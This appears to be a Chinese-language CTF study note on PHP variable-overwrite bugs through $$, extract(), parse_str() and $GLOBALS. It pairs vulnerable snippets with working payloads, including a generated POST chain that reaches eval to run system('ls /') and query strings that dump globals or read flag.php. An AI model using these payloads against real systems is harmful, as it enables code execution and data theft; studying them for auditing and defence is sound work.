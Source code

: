 ```
$a = 'b';
$b = 'ab';
$$a = 'bc' ;//此时$b会变成bc
```
代码审计搜搜$$
经常导致变量覆盖漏洞场景有：
$$，extract()函数，parse_str()函数，import_request_variables()使用不当，开启了全局变量注册等。

## **extract()**
和parse_str()差不多。
例如：
`extract($_POST);`: 这个函数将 `$_POST` 数组中所有的键值对转换为变量和对应的值。例如，如果 `$_POST['user']` 存在，及POST传参user=xx，那么该函数将创建一个名为 `$user` 的变量，并将其值设置为 `$_POST['user']` 的值xx。

如果传参_SESSION[flag]=123。
那么覆盖只有$_SEESION[flag]=123。

^
```
extract($vars);  配合include $__template_path__;
若$vars传参可控，则可实现任意文件读取。
```

^
## **变量覆盖引出$GLOBALS数组**
$GLOBALS数组中有flag值。
```
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

 $v1 = $_GET['v1'];
 $v2 = $_GET['v2'];

if(preg_match('/ctfshow/', $v1)){
        getFlag($v1,$v2);
 }



?v1=ctfshow&v2=GLOBALS
类似
$ctfshow=$GLOBALS;
var_dump($ctfshow);
```

^
## **常规变量覆盖**
```
error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```
```
import string
a='_=a&'
s=string.ascii_letters
code="system('ls /');"
for i in range(35):
    a+=s[i]+"="+s[i+1]+"&"
a+=s[i]+"="+code
print(a)

POST传递：
_=a&a=b&b=......&I=J&J=system('ls /');
```


^
## **parse_str()函数**
类似extract()函数和变量覆盖。
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30

parse_str($str,$arr);
$arr['name']
$arr['age']
```
```
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```

^
和extract()配合题：
```
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
?_POST[key1]=36d&_POST[key2]=36d
通过parse_str转成$_POST[key1]=36d
通过extract转成$key1=36d
```